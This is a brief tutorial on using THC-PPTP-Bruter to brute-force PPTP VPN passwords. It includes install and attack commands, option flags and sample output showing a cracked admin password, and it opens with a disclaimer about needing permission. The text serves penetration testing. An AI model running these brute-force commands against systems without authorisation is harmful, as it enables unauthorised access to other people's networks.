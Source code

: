 * Always ensure you have permission to test the systems you are targeting. Unauthorized access is illegal and unethical.
* THC-PPTP-Bruter can be resource-intensive, so be cautious when using it to avoid overwhelming the target system or your own system.

Remember to use THC-PPTP-Bruter responsibly and within the bounds of the law.



                            ALTERNATIVE
**THC-PPTP-Bruter** is a brute-force tool specifically designed to attack PPTP VPN endpoints, exploiting vulnerabilities in the Microsoft MSChapV2 authentication protocol. This tool is included in Kali Linux and is useful for testing the security of PPTP VPNs.

### How to Use THC-PPTP-Bruter

1. **Installation**: If it's not already installed, you can install it using the following command:
   ```bash
   sudo apt install thc-pptp-bruter
   ```

2. **Basic Command Structure**:
   The basic syntax for using THC-PPTP-Bruter is:
   ```bash
   thc-pptp-bruter [options] <remote host IP>
   ```

3. **Common Options**:
   - `-u <user>`: Specify the username (default is `administrator`).
   - `-w <file>`: Specify a wordlist file containing passwords (default is standard input).
   - `-p <n>`: Specify the PPTP port (default is `1723`).
   - `-n <n>`: Set the number of parallel tries (default is `5`).
   - `-l <n>`: Limit the number of passwords per second (default is `100`).
   - `-v`: Enable verbose output for debugging.

### Example Usage

#### Example 1: Basic Brute-Force Attack
To perform a brute-force attack against a PPTP VPN endpoint, you can use the following command:
```bash
thc-pptp-bruter -u admin -w /path/to/passwords.txt 192.168.1.100
```
In this command:
- `-u admin`: Specifies the username `admin`.
- `-w /path/to/passwords.txt`: Points to a file containing potential passwords.
- `192.168.1.100`: The target IP address of the PPTP VPN.

**Expected Output**:
```
Trying password: password123
Success: admin:password123
```

#### Example 2: Using Parallel Tries
To increase the number of parallel attempts, you can modify the command as follows:
```bash
thc-pptp-bruter -u admin -w /path/to/passwords.txt -n 10 192.168.1.100
```
Here, `-n 10` sets the number of parallel tries to `10`.

